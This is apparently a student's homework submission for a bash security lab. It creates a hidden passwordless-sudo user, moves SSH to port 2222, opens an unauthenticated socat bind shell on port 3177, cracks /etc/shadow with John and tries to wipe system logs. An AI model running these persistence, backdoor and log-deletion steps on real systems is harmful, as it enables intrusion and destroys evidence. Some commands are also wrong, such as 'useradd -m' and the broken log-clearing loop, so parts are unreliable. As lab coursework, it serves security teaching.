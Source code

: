 ## Submission for Unit 6 Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- `root:home\ $ useradd -m sysd`

Give your secret user a password. 
- `$ passwd sysd`

Give your secret user a system UID < 1000.
- `usermod -u 898 sysd`

Give your secret user the same GID
- `groupmod -g 898 sysd` 

Give your secret user full sudo access without the need for a password.
- `sudo visudo` 

Test that sudo access works without your password

```bash
sysd ALL=(ALL) NOPASSWD:ALL
``` 

## Allow ssh access over port 2222.

```bash
Port 2222
``` 

Note the IP address of this system:
- `192.168.1.105`
Exit the root accout.
- `exit`
SSH to the machine using your sysd account and port 2222
- `ssh sysd@192.168.1.105 -p 2222`
Use sudo to switch to the root user
- `sudo -s`

### Create a backdoor with socat
- Install socat
  - `sudo apt install socat -y`
- Run Socat command in the background
  - `socat TCP4-Listen:3177,fork EXEC:/bin/bash`
- Explain each part of the `socat` command:
  - `socat` uses socat command to connect with second backdoor  
  - `TCP4-Listen:3177` allows to listent to other location in the VM
  - `EXEC:/bin/bash` execute the shell command on remote server
- Exit the SSH session
  - `exit`
- Test socat connection from your local machine
  - `socat STDIO TCP4:192.168.1.105:3177 `
- Close the `socat` connection.
  - `exit`

## Crack _all_ the passwords
Ssh back to the system using your sysd account
- `ssh sysd@192.168.1.105 -p 2222`
- Use John to crack the entire /etc/shadow file
    - `john /etc/shadow`

## Cover your tracks
- Use socat and a for loop to clear all system logs.
- `socat for log.txt in /var/log/syslog
do
	rm*
done` 